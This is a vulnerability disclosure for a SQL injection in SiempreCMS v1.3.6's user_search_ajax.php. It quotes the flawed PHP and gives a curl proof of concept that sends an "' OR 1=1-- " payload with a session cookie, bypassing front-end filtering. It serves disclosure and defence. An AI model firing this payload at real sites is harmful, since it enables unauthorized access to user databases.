

# SQL Injection in Siempre CMS ``(user_search_ajax.php)``

**Vulnerability Type:** SQL Injection (SQLi) 
</br>
**Affected Component:** ``user_search_ajax.php``
</br>
**Affected Parameters:** ``user-search-username, user-search-name``
</br>
**Product:** *[SiempreCMS v1.3.6](https://github.com/SiempreCMS/SiempreCMS)*

The ``user_search_ajax.php`` file is vulnerable to SQL injection due to improper handling of user-supplied input. User inputs are passed directly to the database query without proper parameterization or prepared statements.

The vulnerability resides on ``user_search_ajax.php``.

```php
if (isset($_POST['action']) && $_POST['action'] == 'search') {	
    $name = trim(htmlentities($_POST['user-search-name']));
    $userName = trim(htmlentities($_POST['user-search-username']));
    $perPage = intval(trim(htmlentities($_POST['user-search-perpage'])));
    $offset = (intval(trim(htmlentities($_POST['user-search-page']))) - 1) * $perPage;

    $usersearch = new usersearch();
    if($usersearch->getUsers($name, $userName, $perPage, $offset)) {	
        echo(json_encode(array('result' => true, 'results' => $usersearch->results, 'totalrows' => $usersearch->totalRows)));
        exit();
    }
}
```

### Why it’s vulnerable:
  - ``htmlentities()`` only escapes HTML characters, it does not prevent SQL injection.

  - ``$name`` and ``$userName`` are likely concatenated directly into SQL inside ``getUsers()``.

  - No prepared statements or parameterized queries are used.

---

### Proof-of-Concept
You need to grab first your ``PHPSESSID`` after logging in so you can do the exploit.
</br>
The following curl command demonstrates SQL injection:

```bash
curl -X POST \
  -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
  --data-urlencode "action=search" \
  --data-urlencode "user-search-username=test' OR 1=1-- " \
  --data-urlencode "user-search-name=test" \
  --data-urlencode "user-search-perpage=20" \
  --data-urlencode "user-search-page=1" \
  http://localhost/SiempreCMS/docs/admin/user_search_ajax.php
```
**Output:**


---

### Important Note: Browser vs Terminal Behavior
  - When the same payload ``(' OR 1=1 --)`` is entered directly in the web interface, it does not trigger the SQLi.
  - This is because the front-end JavaScript ``(js/user.js)`` sanitizes or encodes the input before sending the AJAX request, preventing the raw payload from reaching the server.
  - Directly sending the POST request via curl bypasses all front-end filtering, which is why the vulnerability is exploitable outside the browser interface.

**Evidence:**



